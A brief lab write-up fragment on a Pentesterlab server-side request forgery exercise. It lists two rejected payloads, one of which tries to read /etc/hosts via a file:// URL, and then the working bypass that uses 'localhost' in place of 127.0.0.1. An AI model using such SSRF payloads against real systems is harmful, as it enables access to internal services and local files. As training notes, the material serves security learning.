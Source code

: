 #### 3.1. SSRF 2 (Pentesterlab)

Failed attempts:
```
http://ptl-2769b50a-2eceee67.libcurl.so/?url=http://127.0.0.1:1234 (Invalid URL)
http://ptl-2769b50a-2eceee67.libcurl.so/?url=file:///etc/hosts (Invalid URL)
```

Solution:
```
http://ptl-2769b50a-2eceee67.libcurl.so/?url=http://localhost:1234
```
